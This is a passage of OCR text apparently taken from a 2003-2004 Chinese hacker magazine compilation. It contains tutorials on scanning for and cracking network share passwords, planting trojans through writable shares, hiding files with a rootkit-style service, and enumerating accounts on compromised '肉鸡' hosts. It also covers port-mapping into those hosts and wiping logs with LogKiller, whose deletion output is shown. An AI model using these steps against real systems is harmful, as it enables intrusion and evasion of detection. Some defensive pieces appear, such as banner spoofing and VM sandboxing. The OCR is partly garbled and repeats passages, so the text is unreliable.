我心里把握虽不大，但口头还是答应朋友试试看。

了解清楚情况很重要，如果搞不清是怎样丢QQ的，就无从下手。丢QQ无外乎以下四种情况：

1. 在公共场所上网，导致密码被后台记录软件窃取；
2. 个人电脑中了木马；
3. 密码设置过于简单，被别人猜中或破解；
4. 由于主观失误或警惕性不高，泄露密码。

因此，我按照上面的几种情况一一向他询问，得到如下结果：

1. 他上周末在家上过QQ，但这周四在学校机房的时候就无法登陆了，这期间他去过网吧也去过学校机房，不过上周二在学校机房上过网；
2. 上周末上网时开了防火墙和杀毒软件，但未有警报或异常；
3. 他的QQ密码是sd4534kl；
4. 没有把密码告诉过别人，也没写在纸上或别的地方。

根据这些情况，我作了初步分析：

1. 如果QQ是上周二在机房上网被盗，那么偷盗者会在第一时间更改QQ密码，而不会等到这周才改（直到上周末朋友的QQ还正常），因此这种可能性似乎很小；
2. 由于防火墙或杀毒软件对最新的木马不一定起作用，因此这种情况可能性仍然存在，我追问他是否执行过陌生程序、打开过附件、浏览过可疑的网页等，他都说没有；
3. 他设置的密码也不算简单，猜解比较困难，因此这种可能性也很小；
4. 虽然他敢保证自己没泄露过密码，但不能排除间接泄露了密码。

分析到这里，我还是觉得他中木马的可能性较大。因此又问他上周末是否浏览过陌生网页，下载过什么东西？他说下载肯定是没有的，主要是聊天儿，而且聊的时间也不长。不过他因为做网页需要一个留言簿，因此就到google搜索了几个提供免费留言簿的网站，并在其中一个网站申请了。

说到这里，直觉告诉我，这几个提供免费留言簿的网站可能有问题，也许他们的网页里有木马，而那个提供了成功申请的网站就更可疑，因为有些多用户留言簿的数据库是明文存放注册者密码的，一旦数据库被人下载或被居心不良的管理员恶意查看，那么将直接导致密码泄露，而我朋友的留言簿申请密码正好是QQ的密码。这倒不是巧合，而是因为他习惯于用一个密码。


根据朋友的描述，我从google径直来到了成功注册的那个网站（图1）。其实这只是装了一个ASP的多用户留言簿而已，专供别人申请。我顺着它的二级域名（图片中已略去）找到了空间提供商，看来这个留言簿程序是安装在虚拟主机上的。我用浏览器试着请求了几个默认的首页文件，包括index.htm、index.html、index.asp、default.asp、default.htm等，都没找到文件，难道这空间就放了这一个程序？似乎更加可疑。我在网上下了一个同样版本的留言簿源程序后就下网了。下网之后，我首先查看了自己机器的端口、注册表启动项、进程等敏感部位，并用最新的瑞星查了一遍硬盘，并未发现木马，似乎中木马的可能性也在减小，所以我把更多的注意力集中在留言簿源程序上。

## 二、分析源程序

好了，我们目前的重点就是源程序，图2是解开源程序压缩包后的文件，图3是留言簿的数据库文件。


可以看出，整个留言簿的数据都被存放到guestbook.asp文件中，由于扩展名是.asp（原本应该是.mdb，看来程序作者还是注意了一些安全问题），所以数据库被恶意下载的可能性很小。难道真像我想象的那样——网站的主人（即留言簿的超级管理员）窃取了数据库中的密码，然后更改了朋友的QQ密码？现在下结论还为时过早，我们还是先看看这个数据库文件是怎么存放密码的，看超级管理员是否有“作案”的客观条件。


图4是数据库中的admin表，我们可赫然看到默认的管理员密码：ddwn，而且是明文存放的（因为程序是在当当网站下载的，所以默认用户名和密码都是ddwn）。

为了进一步确认，我把程序全部上传到我的个人空间，并以普通用户身份申请了一个留言簿（图5），把数据库下载后再次打开，查看密码的存放情况（图6）。好家伙，仍然是明文存放密码，如果真碰到居心叵测的管理员，不知道有多少朋友要遭殃！


## 三、管理员真凶之谜

现在，我感觉朋友的QQ很有可能是这样被盗的，为了不“冤枉”好人，我们还是验证一下吧！
我决定来一次“致命诱惑”，用自己备用的无保QQ（为了加大诱惑，我连无保QQ都献出来了，看我多够朋友）密码作为注册密码来申请留言簿，并特意在留言时填了QQ号码。果然不出所料，两天后那个QQ同样也不能登陆，密码保护也被别人申请了。看来这个QQ是没了，不过事情总算水落石出了！后来向朋友说了经过，并答应他如果有机会，我会与那个“管理员”联系，看能不能要回QQ！

## 四、反思

经过这件事，我有两点反思：

1. 希望大家在申请注册时，不要都使用同一个密码，丢了一个，就可能丢了所有；
2. 明文存放密码的程序在网上有一大堆，我知道作者写一个程序要花很多心血，但也希望他们能多花一点时间将数据库加密。

## 五、后记

这篇文章没什么技术和创新可言，只是希望给新手们提个醒！


黑客X档案 2003 2004年合订本下册

97

# 遥控工具与共享资源密码

近墨

一些刚入道的菜鸟在扫描主机时，往往会拿出菜鸟法宝x-way、x-scan或流光，在扫描范围内填上一个IP段，也不管其中有多少台主机，一通狂扫后，往往是一场欢喜一场空！大大打击了菜鸟的进取心！
现在，我给菜鸟朋友隆重推荐shed共享搜索器（光盘中有收录）。这是一款运行在Win9X/NT/2K/XP环境下的共享资源搜索工具，但在Win9X下只能搜索本地网络（局域网）的共享资源，而在WinNT/2k/XP下可搜索Internet上的共享资源。
如果你想充分发挥该软件的强大功能，那就使用NT内核的操作系统吧！
程序运行后如图1所示，在“起始地址”中输入扫描IP起点，如“192.168.0.1”。在“停止地址”中输入IP的扫描终点，如“192.168.0.255”。然后点击“开始”按钮，是不是听见“吱吱”的扫描声，呵呵！


在“活动扫描”窗口显示的是当前在线主机，而在“显示共享资源”窗口则显示有共享资源的主机（即开了139端口的主机），一个IP段也就是一两分钟即可扫描完。


OK！下面我们来分析一下扫描结果，看看其中有多少台主机是Win9X内核的操作系统，多少台主机是NT内核的操作系统。正所谓只有“知己知彼”，方能“百战不殆”！从图2中可看出，IP为“192.168.0.127”的主机“026”与IP为“192.168.0.120”的主机“019”都是Win9X内核的操作系统。所不同的是，主机“026”的共享资源是可见的，而主机“019”的共享资源是隐藏的，你问我怎么知道的？因为他们的共享符号不一样啊（像主机“019”这样的隐藏共享要么是“尼姆达”病毒造成的，要么是人为设置的）！
对于Win9X的共享资源，只需在共享资源上双击，软件会利用“远程进程间通信”（也就是139端口）打开对方的这个共享资源。有时双击后会弹出一个如图3所示的窗口，这是因为这个共享资源设了密码，只要输入密码就能打开。


这里顺便给大家介绍一个破解共享密码的工具——PQwak（光盘中有收录），该程序的界面如图4所示。在“目标IP地址”中输入对方的IP地址，在“共享名称”中输入对方的共享资源名，点击“开始”，一两分钟即可搞定。


瞧，我们拿到这个共享资源的密码了，原来是六个1。进去看看这个共享中有什么好东东！
对于Win9X系统的入侵也可通过对对方共享的一些可写文件夹来实现，如C盘可写，可将木马加入到启动中，如是别的可写文件夹，可利用folder.htt等一些方式种植木马！哈，扯远了，赶快回到主题。
还是看一下图2，其中IP为“192.168.0.100”的主机“A-1TNQ2OU38XYAQ”是NT内核的操作系统，为什么呢？因为NT内核的操作系统在默认情况下是将C$，Admin$，IPC$等这些资源共享的，但双击这些共享资源时，会弹出连接窗口，要求输入用户名及密码（图5）。在没有这个IP管理员密码的情况下，是打不开这个共享资源的，要不怎么叫NT内核的操作系统呢！

NT内核的操作系统在默认情况下是将C$，Admin$，IPC$等这些资源共享的，但双击这些共享资源时，会弹出连接窗口，要求输入用户名及密码（图5）。在没有这个IP管理员密码的情况下，是打不开这个共享资源的，要不怎么叫NT内核的操作系统呢！


呵呵！终于找到NT内核的操作系统了，这才是我们菜鸟练手的拳靶，拿出我们的扫描法宝，填上IP开始扫吧！

# 隐藏文件夹独门绝技

刘志坚

很多时候，我们要把爱机中的重要文件和资料隐藏起来。虽然现在的方法很多，但从效果上来说，还是有些不太如人意的地方。下面我给大家介绍一个在Win2000/XP下隐藏文件的好工具——deploy。
在光盘中找到root_040.zip压缩包，解压后会发现里面有三个文件：_root_.sys、deploy.exe、root_readme.txt（图1）。


接下来给大家讲其使用的方法：首先把_root_.sys和deploy.exe这两个文件放到同一文件夹里，然后运行deploy.exe文件，运行完它也就作为一个服务运行了。我们可使用命令来让它启动和停止（图2）：

net start _root_（启动服务）
net stop _root_ （停止服务）

服务开启后，我们只要把文件或文件夹名称的前六位字符改为_root_，然后再刷新就可实现隐藏。是不是很简单？图3是运行前和运行后的对比，是不是很方便？

```
C:\>net start _root_
_root_ 服务已经启动成功。

C:\>net stop _root_
_root_ 服务已成功停止。

图2
```


如果大家对隐藏文件感兴趣，不妨一试！

黑客X档案2003 2004年合订本(下册)

# SuperScan 4.0 新体验

**冷血无情**

相信很多读者朋友都用过有“速度先锋”之称的SuperScan吧！它体积小巧、功能强大、操作简单。如今的SuperScan更是在原有基础上整合了一些新功能，摆脱了昔日单一的界面，完全可以取代一些软件和命令提示符。唯一不足的是，SuperScan4.0不兼容Win98，不过没关系，大伙不都养着肉鸡吗？此时不用，更待何时……

SuperScan4.0的英文版和汉化版均可在光盘中找到（本文以英文版作为讲解对象），安装完成后，运行SuperScan4.exe进入软件的主界面（图1）。软件分为多个版面，单击各标签即可进行切换。和其他扫描软件一样，在扫描前我们先对整体功能来个简单了解，以使扫描更快、更准！


SuperScan4.0把3.0中的所有功能基本分为了三部分，IP设置和扫描结果放在“Scan”中，而扫描参数则放在“Host and Service Discovery”和“Scan Options”中。下面让我们来体验一下SuperScan4.0的超强功能吧！

## 1 超快的扫描速度


我曾在同一台机器上对肉鸡进行扫描，结果发现SuperScan4.0的扫描速度几乎比以前各版本都要快，而且进度条能与时俱进，不会出现停顿或一口气跑老远的情况。

扫描完成后，可以点击“View HTML Results”，也可看到HTML化的扫描结果，感觉比较好。作者真是想得周到，将扫描结果进行了详细分类，以方便统计目标信息（图2）。

## 2 扫描前的设定

## 3 随心所欲的设定扫描速度

在SuperScan4.0的扫描参数设置（Scan Options）中也有在SuperScan3.0中的速度调整模块，在其右方有明显的数值显示速度，可方便使用者察看软件即将使用的扫描速度（图3）。


## 4 命令的可视化执行

在“Tools”标签中，SuperScan4.0将常用的各种命令集于其中，使用者只需在“HOSTname/IP/URL”中填入IP，点击左边相应的按钮，就会显示出对应结果。图4是我点击前三个按钮后显示的结果，它真正摆脱了昔日一个个输入复杂命令的烦恼。

另外，软件还附带了默认的Whois服务器。

## 5 高级信息获取功能

在“Windows Enumeration”标签中，只要在“HOSTname/IP/URL”内输入目标的IP或域名，在右边的服务区按自己的要求勾选相应的服务，点击“Enumerate”按钮，软件就按我们的要求开始工作。在这里我勾选了“MAC Adresser”和“Users”。执行！哇噻！机器上所有的用户信息都出来了。

图5是我在肉鸡上测试的肉鸡自身信息，也许为软件提供了提取信息的条件，有兴趣的朋友可从外部测试，看能否成功？


即使失败，我们还可把软件传到肉鸡上来得到这些帐号信息，进而巩固自己在肉鸡上的地位。


## 6 验证和保存功能

在“Windows Enumeration”中还有个枚举选项。进入“Windows Enumeration”，点击“Options”，将弹出图6所示窗口。有的服务器使用“Windows Enumeration”中的命令时需要认证用户，这时为了不知难而退，就添加相应的帐户信息吧！

下面我们再设置一下注册文件的地址，“Registry keys file”是为能成功填写上述帐户信息的人士准备的，设置完毕后点击“OK”即可正常使用。


另，SuperScan4.0还具备一键清除和恢复默认的功能，这对菜鸟来说绝对是个惊喜！
由于版面有限，笔者只对SuperScan4.0的几大新增功能作了简单介绍，不明之处，欢迎指正。

# 反信息搜集战

相信很多朋友都看了2003年《黑客X档案》第8期Greenice写的“对操作系统识别的基本方法”，里面介绍的方法是信息搜集的，那么如何来迷惑入侵者呢？怎么来反信息搜集？请看！

## 什么是信息搜集

中国有句古话：“知己知彼，百战不殆！”。因此，黑客和入侵者们都在默默遵守这条规则——从不进入自己不了解情况的主机，因为你不知道管理员是真的白痴还是伪装成白痴的高手。作为一个基本准则，信息搜集技术在这种没有硝烟的战争中，显得格外重要。一个成功的黑客不仅要掌握大量的计算机网络技术、编程技术等，在某些时候还要懂得社会工程学基础。只有完美的利用这些东西，充分发挥你的聪明才智，才能了解到更多的情报，以增加入侵的成功率。

信息搜集就是对目标主机及其相关设施、管理人员进行公开非公开的检测，用于对攻击目标安全防卫工作的掌握，比如对目标主机的操作系统进行鉴别等。这是攻击的前奏。内容包括系统、网络、数据及用户活动的状态及其行为，而且有时还需要在计算机网络系统中的若干不同关键点（比如不同网段和不同主机）来搜集所需要信息。

## 信息搜集的步骤

信息搜集大致可分为两步：

1. 制定目标
这里我们所说的目标通常分为两种：一种是有明确的攻击目标和动机（如中美黑客大战时我们指定的美国IP段）；第二种是随机扫描，事先并无明确的攻击意识，只是由于某些原因（如网站自身的缺陷等）所制定的目标。
2. 具体信息搜集
又可大致分为两方面：一是使用功能强大的系统安全检测软件对目标系统实施多方位的安全检测（如用流光、Nmap等检测工具获取信息后，经分析然后制定有效的攻击策略）；二是使用社会工程学原理，按照事先制定的目标进行入侵前的信息搜集，这往往能起到意想不到的效果，但这种方法要求较高，也较困难，需要良好的思维能力和处理能力。

## 如何反信息搜集

既然信息搜集能给黑客提供很多系统信息，那我们如何来反信息搜集呢？如何制造假信息欺骗入侵者呢？

### 1. 修改TTL值

我们知道，黑客在简单鉴别对方主机操作系统时，可利用Windows自带的Ping程序进行检测，如下面的情况，我们可通过TTL值来判断该主机为WindowsNT/2K系统。

```
C:\>ping www.longker.com
Pinging www.longker.com [218.5.79.99] with 32 bytes of data:
Reply from 218.5.79.99: bytes=32 time <10ms TTL=128
Reply from 218.5.79.99: bytes=32 time <10ms TTL=128
Reply from 218.5.79.99: bytes=32 time <10ms TTL=128
Reply from 218.5.79.99: bytes=32 time <10ms TTL=128
Ping statistics for 218.5.79.99:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
```

因为WindowsNT/2K默认的TTL值为128，如果主机没有过滤ICMP，那么对方只要PING一下，就大概知道你的系统了。下面我们自己来修改就可起到简单欺骗的目的。
我们以改成UNIX类的255为例，把下面的内容存成.reg文件，双击导入即可：

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters]
"DefaultTTL"=dword:000000ff
```

下面是相对应的TTL值：

| 十进制 | 十六进制 |
| ------ | -------- |
| 255    | FF       |
| 128    | 80       |
| 64     | 40       |
| 32     | 20       |

### 2. 修改默认Banner信息

入侵者可Telnet主机Web端口，然后用get命令来获取主机版本，以下是我们得到的反馈信息：

```
C:\>telnet www.Target.com 80 然后输入get，得到如下信息：
HTTP/1.1 400 Bad Request
Server: Microsoft-IIS/5.0
Date: Sat, 19 Jul 2003 11:24:10 GMT
Content-Type: text/html
Content-Length: 87
<html><head><title>Error</title></head><body>The parameter is incorrect.</body></html>
```

服务器乖乖返回了目标主机Web系统——IIS/5.0，操作系统为Windows系统。如果对方开了FTP服务，在命令行下连接对方主机：

```
C:\>ftp
ftp> open www.longker.com
Connected to www.longker.com.
220 Microsoft FTP Service (Version 5.0).
User (www.longker.com:(none)):
```

是微软自带的FTP服务器，可判定主机系统为Windows系统。
那么如何来修改这些默认Banner信息呢？首先，我们需要知道存放这些Banner信息的文件都放在%systemroot%\system32\inetsrv目录下，他们的对应关系是这样的：

WEB是：%systemroot%\system32\inetsrv\w3svc.dll
FTP是：%systemroot%\system32\inetsrv\ftpsvc.dll
SMTP是：%systemroot%\system32\inetsrv\smtpsvc.dll

然后可用记事本将它们打开，查找我们想要找的BANNER的关键字，如IIS的WEB就要找“Microsoft-IIS/5.0”，然后直接修改成我们想要的样子，最后保存即可。

# 注意

1. 在修改时请先停止IIS服务，可用iisreset /stop或net stop w3svc。
2. 由于Windows系统后台文件保护机


# 傻瓜黑客

## 3389 肉鸡攻防实战

侯成岗

接着上期，适应系统和管理最重要的DNS文章修改

在系统中，文件名为services，具体位置在%SystemRoot%\System32\drivers\etc目录下的同名文件。用记事本打开它，内容与Lmhosts文件差不多，这里就不多说了

入侵者还可通过Telnet你的23端口来获取系统版本，当然前提是你开放了Telnet服务。那么如何来修改默认Banner以迷惑入侵者呢？就Win2k而言，可在Winnt\system32文件夹下找到login.cmd文件，这是默认的Telnet登陆脚本，内容如下：

```
@echo off
rem /*Telnet服务器的默认全局登陆脚本在默认安装中，调用最初的命令外壳时，这个命令脚本将得到执行。反过来，这个命令脚本会试图调用单个用户的登录脚本 */
echo *
echo 欢迎使用 Microsoft Telnet 服务器。
echo *
cd %HOMEDRIVE%%HOMEPATH% /d
```

当成功Telnet进去时，就显示“欢迎使用Microsoft Telnet服务器”，然后出现命令行。这里我们可修改成自定义的，比如：Red Hat Linux release 8.0 (Psyche) Kernel 2.4.18-14 on an i686。

这样一来，对方可能就糊涂了，不知道怎么入侵*nix。当然你也用别样的语言吓吓他，就看你的想象力了。

至于*nix的Telnet默认Banner，一般存放在/etc/issue里，cat下看看就知道了，自己去修改吧。可把你的SunOS系统改成Redhat，因为sunos漏洞较多，还是改成redhat安全些，当然这只是迷惑对方，要真正安全，还是需要更好的安全意识。

## 总结

这样修改后，在一定程度上减少了受攻击的可能，在现实中也取得了很好的效果。但话又说回来，毕竟我们是心虚的，要真正的安全，还是要从底层抓起，一步步来做好。

3389肉鸡是大家的最爱，它不仅直观，性能强，而且安全性也较高，不易被主机管理员发现。所以有些人在3389肉鸡上为所欲为，以为很安全，真是这样吗？其实不然，看了下面的测试你就会明白，没有绝对安全的肉鸡，干什么事情都得谨慎。

### 一 肉鸡的配置

通过在3389肉鸡上进行的一系列活动来分析3389登录日志。

### 二 肉鸡的配置

给广大玩黑的朋友敲一次警钟：3389肉鸡并非绝对安全，而是十分危险的。

### 三 实战测试

- 1. 一台3389肉鸡：219.12.*.*，登录使用的帐号是loveapple
- 2. 肉鸡的服务器名：ZHONGXIN-5D5700

我自己的客户机名：S - 6HSZEDVSXCSDP

我自己客户机的IP：219.144.35.58

### 四 开启审核策略

打开远程终端连接器，输入肉鸡的IP和管理员帐号、口令，进入它。

打开肉鸡的“计算机管理”，查看日志中的“安全性”，发现这项功能根本没有开启，这也是很多管理员所犯的毛病。如果没有开启它，3389端口的远程登录事件就不会被记录下来，为了测试的进行，我进行了开启，步骤如下：

- 1. 选择“开始→运行”，输入“gpedit.msc”并回车，打开组策略。
- 2. 然后依次选择“计算机配置→Windows设置→安全设置→本地策略→审核策略”，找到其中的“审核对象访问”项目，双击打开它，出现“本地安全策略设置”面板。
- 3. 将“成功”和“失败”都勾选上（图1）。

这样就开启了事件记录，以后只要是关于登录的事件都会被记录在这里，当然包括3389端口的登录。

### 五 登录测试

打开远程终端连接器，输入肉鸡的IP

和管理员帐号：loveapple，成功进入肉鸡，然后点击“开始→关机”，选择“注销loveapple”方式退出肉鸡。


再次进入肉鸡查看“安全日志”，果然发现了二条成功审核日志（图2），打开查看（图3），内容如下：

```
登录成功:
用户名: loveapple
域: ZHONGXIN-5D5700
登录 ID: (0x0,0xF59A1)
```

黑客X档案 2003 2004年合订本(下册)

76

# 傻瓜黑客

登录类型：2
登录过程：User32
身份验证程序包：Negotiate
工作站名：ZHONGXIN-SD5700

这个日志详细记录了一次3389端口的登录事件，其中包括：登录时使用的用户名（loveapple）、我的电脑的服务器名（ZHONGXIN-SD5700），以及一些类型等，但是没有记录我的任何IP或计算机名。

再看另一个日志，内容如下：

```
用户注销:
用户名: loveapple
域: ZHONGXIN-SD5700
登录 ID: (0x0,0xE59A1)
登录类型: 2
```

和上面的日志差不多，记录了一些常见信息，没有暴露我的任何信息。这两个日志是记录开启肉鸡安全日志后的一次登录和注销过程。

## 被日志记录

打开远程终端连接器，输入肉鸡的IP和管理员帐号：loveapple，成功进入肉鸡后点击“开始→关机”，然后选择“断开”方式退出肉鸡。

再查看肉鸡这次记录下的日志（图4）：

```
用户名: loveapple
域: ZHONGXIN-SD5700
登录 ID: (0x0,0xF59A1)
会话名称: RDP-Tcp#5
客户端名: S-6HSZEDVSXC5DP
客户端地址: 219.144.35.58
```


瞧，这次就被日志记录下我的IP：219.144.35.58，还有计算机名：S-6HSZRDVSXC5DP，很危险吧！

## 伪造日志


打开远程终端连接器，输入肉鸡的IP

和管理员帐号，然后有意地输入错误密码。系统会提示你无法进入（图5）。

再次连接登录后，检查日志会发现多出了两个新日志。

1.其中一个如下图（图6）：

```
登录失败:
原因: 用户名未知或密码错误
用户名: loveapple
域: ZHONGXIN-SD5700
登录类型: 2
登录过程: User32
身份验证程序包: Negotiate
工作站名: ZHONGXIN-SD5700
```


还好，这个日志记录不了我的IP地址和一些敏感信息。

2.但下个日志就没那么好过了（图7），系统日志里有个新日志，显示信息如下：“来自客户端名S-6HSZEDVSXC5DP的远程会话超出了所允许的失败登录最大次数，强行终止了会话。”


这次被日志记录下了我的计算机名S-6HSZEDVSXC5DP，对方管理员发现后，只需在cmd命令行下输入ping S-6HSZEDVSXC5DP就可得到我的IP地址。

## 擦除日志

上面几种登录情况都看清楚了吧！很多情况下都有可能暴露你的行踪。也许此时你会想：我走的时候把日志清除干净就可以了。这样真的可以吗？往下看就知道了！

进入3389肉鸡，进入“计算机管理”，


在“安全性”日志上单击鼠标右键，然后删掉日志（图8），正常注销退出3389肉鸡。再次进入3389肉鸡查看安全日志，里面有个新的审核日志，如图9：

```
审核日志已经被清除
% 主要用户名：SYSTEM
主域：NT AUTHORITY
主登录 ID：(0x0,0x3E7)
客户端用户名：loveapple
客户端域：ZHONGXIN-SD5700
```


看见了吧！日志连我清除的工作事件都记录了下来，虽没记录下IP地址，但日志显示的信息让对方管理员一看就知道有人入侵了他的电脑。

关于3389日志的记录就说到这里，这下你对3389肉鸡没那么多的安全感了吧！的确如此，没有完美的肉鸡。

> ### 什么是SMTP?
Simple Mail Transfer Protocol，简单邮件传输协议。它是一种用于源地址到目的地址传送邮件的规则，由它来控制信件的中转方式。SMTP协议属于TCP/IP协议族，它帮助每台计算机在发送或中转信件时找到下一个目的地。通过SMTP协议所指定的服务器，我们就可以把E-MAIL寄到收信人的服务器上了。SMTP服务器则是遵循STMP协议的发送邮件服务器，用来发送或中转你发出的电子邮件。

> ### 什么是APACHE?
APACHE是一款在Internet上广泛使用的、全免费的WEB架构组件，性能出色、易用性也比较好。APACHE分为UNIX/Linux版本以及Windows版本，目前在Internet上有超过50%的WEB服务器采用的是APACHE来架构他们的网站，数量远超使用IIS的。

黑客X档案2003 2004年合订本(下册)

## 菜鸟的试验室 虚拟机

相信很多菜鸟在刚开始接触黑客技术时，都会对一些恶作剧软件和病毒感兴趣，好奇地将它们下载到自己的机器上做试验，但后果往往是蓝屏。我以前玩这些程序时，系统重装了不知道多少遍！如果你现在也在遭受这些折磨，那下面介绍的内容可千万不要错过。此次我给大家介绍的是如何运用虚拟机来检测恶意网站对计算机所做的修改，这个方法也可用于测试木马之类的，看《黑客X档案》的菜鸟都是聪明的，举一反三是不成问题di，呵呵！

## 一、什么是虚拟机

通俗点讲，虚拟机就是用软件模拟出一台计算机来。现在较出名的虚拟机软件有Virtual PC和Vmware，我个人比较喜欢用Virtual PC，完全是个人习惯而已。所以，我下面的介绍以Virtual PC V5.2中文版为例（光盘有收录）。为照顾没用过该软件的朋友，我先简单介绍一下怎么利用它来建立一个虚拟机，我以建立Win98系统的机器为例，其它操作系统大同小异。

## 二、如何创建虚拟机

安装了Virtual PC V5.2后，直接在“开始”菜单的“程序”中就可运行它。如果是第一次运行，程序会出现一个“PC安装向导”，跟着这个向导可轻松创建一台虚拟计算机。接着，会出现图1所示界面，这里列出了我们刚才安装的计算机名（该例是Win98系统）。


点击“启动系统”按钮启动虚拟计算机。目前这个虚拟机什么都没装（相当于一部裸机），我们需要给它安装操作系统，安装方法与在真正计算机上的操作一样，不多说了。这里要说明一下的是，点击图1界面右边的“属性设置”后，我们需要通过弹出窗口中的“CD/DVD-ROM”和“软驱”菜单来加载真正计算机上的光驱和软驱（也可加载ISO格式的镜像文件），如图2。加载后就可对它们进行访问。


# 注意

1. 在使用这个软件的时候，我发现Win98下Virtual PC并不能加载物理光驱和软驱，只能加载ISO镜像文件；但在Windows 2003 Server下却可以。Win2000和WinXP我没试过，估计问题不大。所以，虽然该软件支持在Win98下工作，但建议大虾还是在Win2000/XP或以上版本中运行的好。
2. 要启动计算机的还原功能，应先点击图1界面中的“属性设置”，然后再选择“还原驱动器”，把右边的“允许还原驱动器”勾上（图3）。这样，我们以后做完测试便可把虚拟系统还原成初始状态。还原功能有点像还原精灵。
3. 使用虚拟机对计算机的配置有一定要求：CPU越强越好；内存在256M以上。当然，现在市售低档的计算机运行它也是不成问题的。
4. 虚拟出来的计算机是完全独立的，不能对物理计算机的分区进行访问，只能访问光驱、软驱和镜像文件。


下，嗯！就拿它来试试吧！不过在测试前我们要用到RegSnap这个软件（光盘中有收录）。但前面提到的虚拟机不能访问物理计算机上的分区，但我们可把程序复制到软盘上，再用“软驱”菜单来加载软驱，接着在虚拟机中把程序复制下来（图4）。当然，你也可在虚拟机中直接从网上下载或从光驱复制。


## 三、利用虚拟机进行试验

安装完虚拟机的操作系统后，我们便可利用它进行各种试验了。

对了，忘了说明，只要你真正将计算机和网络连接上了，那么在虚拟机中不需任何设置就可直接上网。

图3是我在虚拟机的Win98系统上《黑客X档案》论坛的截图，现在下载工具方使啦！呵呵！

要进行各种测试就更顺手了，刚好最近一同学发了一个有恶意代码的网址给我（http://www.mmqm.com），叫我研究一下，嗯！就拿它来试试吧！不过在测试前我们要用到RegSnap这个软件（光盘中有收录）。但前面提到的虚拟机不能访问物理计算机上的分区，但我们可把程序复制到软盘上，再用“软驱”菜单来加载软驱，接着在虚拟机中把程序复制下来（图4）。当然，你也可在虚拟机中直接从网上下载或从光驱复制。

OK！进入刚虚拟好的“纯净”Win98系统，安装运行RegSnap，在弹出窗口中点击“新建快照”，然后点击“确定”就可生成一个快照文件，该快照文件记录了虚拟计算机中注册表、Win.ini和System.ini等内容。我们把它保存下来，命名为“快照1”。接着，打开浏览器，访问上面提到的有恶意代码的网站。一进入该网站，便发现有个下载文件的界面一闪而过，因为我是宽带，所以这个界面消失得很快，来不及抓图，用拨号的朋友可试试！

凭直觉，刚下载的程序肯定不是什么好东西（列李鸡婆扔我啊，容易烂，拿土豆炒好了，吃不完还可拿去买市卖）。果然，查看浏览器的默认主页，发现已被改成这

# 傻瓜黑客

个网站的网址（图5）。接下来我们看看这个网站究竟修改了计算机的哪些东西？


图5

再次运行RegSnap，按上面介绍的方法再新建一个快照文件，保存为“快照2”。点出“文件”菜单中的“比较”命令，然后在弹出对话框的第一快照、第二快照中分别选择刚才保存好的“快照1”和“快照2”。在“报告选项”中选择“显示修改过的键名和键值”，最后选择输出文件格式为html（图6）。

稍等片刻，结果便出来了。虽然结果中有些修改并不是网站做的，但我们还是很容易看出哪些是正常的修改数据，哪些是恶意网站的修改。

大家看看图7，这里显示的是该恶意网站在注册表的两个运行项目里添加的“systory.exe”（是不是和系统程序systray很相似？真够狡猾呀！）和“msnuit.exe”（估计这两个程序的作用是把IE的主页之类都设置成这个恶意网站的网址，有兴趣的朋友可进一步分析），并且把IE默认的主页设成了它的网址。当然，这里只是该恶意网站对虚拟机所做的一部分修改而已，真够狠毒啊！


图6

OK，有了这份报告要手工恢复虚拟机的设置就很简单了。什么？你真的逐个项目去恢复？我晕……还记得上面注意事项的第二条吗？只要我们刚才选择了它，要恢复只是一眨眼的功夫！在虚拟机上正常关机后，会弹出一个图8所示的对话框。

我们只需选择“还原所有硬盘驱动器的变化”便可将虚拟机还原到最初状态，比使用还原精灵还方便！


这些都是被恶意网站修改的，这里显示的只是其中一部分！

图7


图8

## 四、结束语

怎么样？是不是很简单、很好玩？当然，虚拟机的作用远不止这个，你还可用它来学习一些高危险性操作（例如Format命令等）。心动不如行动，还愣什么，赶快动手试试呀！


此次给大家带来我平时积累的几个小工具，都属于精品类的，在我平时“工作”时起了不小的作用。现在拿出来给大家详细介绍一个。


## 端口映射器

听名字就知道是一个端口重定向工具，以前类似的工具也不少，但我觉得功能都有些单一，而且操作有些复杂，不太适合菜鸟使用。今天给大家带来的这款端口映射器是图形界面的，不但操作简单，而且支持代理，还可以限制连接数目……图1就是端口映射器的界面。


图1

下面给大家讲解一下它的配置方法。

假设我想把本机的23端口映射到210.xxx.xxx.xxx的3389端口上。先点击“增加”，为这次映射项目起个名字，然后配置“输入IP”（图2）。


图2

图2中的218.61.75.155是我自己的IP；“输入端口”是我想映射的本机端口，这里我写的是23端口；“输出IP”就是你想映射到什么IP上，因为我想把210.xxx.xxx.xxx的3389映射为我机器的23端口，所以输出IP地址应该填210.xxx.xxx.xxx；“输出端口”应该填3389。点击“确定”。

> 注意
如果需要限制连接数量，可在图2的“基本设置”里自行修改；如果想使用SOCKS代理，也可在“使用SOCKS代理服务器”上设置。不过，根据我实验，发现设置代理IP后有些慢。

点完“确定”后就回到了软件的主界面，你会发现主界面上多出一条映射23端口的设置。然后选中最上面的“程序运行时自动启动”就可以了。

映射成功后，说明现在我主机的23端口等同于远程主机210.xxx.xxx.xxx的3389端口（图3）。


下面我用远程桌面连接我本机的23端口。如图4。


看到图5了吗？映射成功！我的23端口连接到了210.xxx.xxx.xxx的3389上。同时在端口映射器的日志文件记录上可清楚看到连接过程（图6）。


怎么样？记录得很详细吧！以上就是一次端口映射的全过程。现在有些菜菜鸟要问了，这样做的好处是什么？好处多多！利用端口重定向可穿透一些简单的防火墙，还可用来连接内网的肉鸡，或者用内部网的IP建设服务器，这样外部网就可以访问了等。

## 2、LogKiller

接下来为大家介绍第二款小工具——Log Killer。

```
C:\>logKiller.exe
Log Killer v1.0 By VinEggDrop

Cleaning Event logs......
Clean Application Event Log Successfully
Clean Security Event Log Successfully
Clean System Event Log Successfully

Backing Up Services Status...... Done

Stopping Services...
The Service "NBTFTPUC" Doesn't Exist
The Service "SNMPUC" Doesn't Exist
Stopping The Service "W3SVC"...
Stopping The Service "NTSMC"......
```

```
Deleting All Log Files......
Delete C:\WINNT\system32\LogFiles\W3SVC1\ex021005.log Successfully
Delete C:\WINNT\system32\LogFiles\W3SVC1\ex021006.log Successfully
Remove Directory C:\WINNT\system32\LogFiles\W3SVC1 Successfully
Remove Directory C:\WINNT\system32\LogFiles Successfully

Deleting Schedule Event Log File......
Delete C:\WINNT\SchedLgU.txt Successfully

Restoring Services Status......
Starting Service "NTSMC"...
Starting Service "W3SVC"...
